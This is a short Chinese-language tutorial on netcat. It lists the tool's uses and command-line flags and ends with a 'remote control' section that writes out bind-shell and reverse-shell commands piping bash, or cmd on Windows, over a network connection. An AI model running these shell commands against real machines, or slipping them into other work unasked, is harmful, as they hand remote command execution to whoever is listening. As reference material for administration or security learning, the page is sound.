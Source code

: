 # netcat(nc)

## 简介

NC（netcat）被称为网络工具中的瑞士军刀，体积小巧，但功能强大。

Nc可以在两台设备上面相互交互，即侦听模式/传输模式。

* telnet功能
* 获取banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件
* 远程控制
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘

## 具体使用

* -c shell commands  shell模式
* -e filename          程序重定向 [危险!!]
* -b  允许广播
* -d   无命令行界面,使用后台模式
* -g gateway       源路由跳跃点, 不超过8
* -G num          源路由指示器: 4, 8, 12, ...
* -h              获取帮助信息
* -i secs           延时设置,端口扫描时使用
* -k  设置在socket上的存活选项
* -l               监听入站信息
* -n              以数字形式表示的IP地址
* -o file           十进制记录
* -p port          本地端口
* -r               随机本地和远程的端口
* -q secs 在标准输入且延迟后退出（翻译的不是很好，后面实例介绍）
* -s addr 本地源地址
* -T tos 设置服务类型
* -t               以TELNET的形式应答入站请求
* -u UDP模式
* -v               显示详细信息 [使用=vv获取更详细的信息
* -w secs          连接超时设置
* -z               I/O 模式 [扫描时使用]


### nc远程控制

正向连接
A:nc -lp port -c bash
B:nc ip port
A将自己的Bash发给B
反向连接
A:nc -lp port
B:nc ip port -c bash
B将自己的Bash发给A
win下Bash换成cmd
